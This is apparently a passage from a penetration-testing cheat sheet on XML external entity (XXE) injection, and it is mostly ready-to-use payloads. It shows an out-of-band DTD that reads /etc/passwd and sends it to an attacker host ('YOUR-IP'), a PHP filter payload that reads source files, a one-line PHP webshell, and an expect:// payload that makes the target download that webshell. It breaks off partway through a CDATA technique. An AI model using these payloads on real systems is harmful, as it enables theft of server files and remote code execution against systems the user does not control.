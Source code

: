 ```XML
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://YOUR-IP/out?%content;'>" >
```

1.  Serve file with http
2.  Insert file in payload

```XML
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://YOUR-IP/external.dtd"> 
%base;
%external;
%exfil;
]>
```

1.  Check incoming requests

Note that extracting file with multiple lines may not work due to encoding issues.

#### Getting files

base64 encode files before sending, if the server uses PHP:

```XML
<!DOCTYPE email [
 <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

#### RCE with XXE

First, create webshell on local machine:

```bash
$ echo '<?php system($_REQUEST["cmd"]);?>' > webshell.php
$ sudo python3 -m http.server 80
```

Then download the file to the target:

```XML
<?xml version="1.0"?>
<!DOCTYPE xeeEntity [
 <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'YOUR-IP/webshell.php'">
]>
<root>
	<xeeEntity>&company;</xeeEntity>
</root>
```

#### Wrapping filecontent in CDATA:

Step 1:

```bash
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000
```
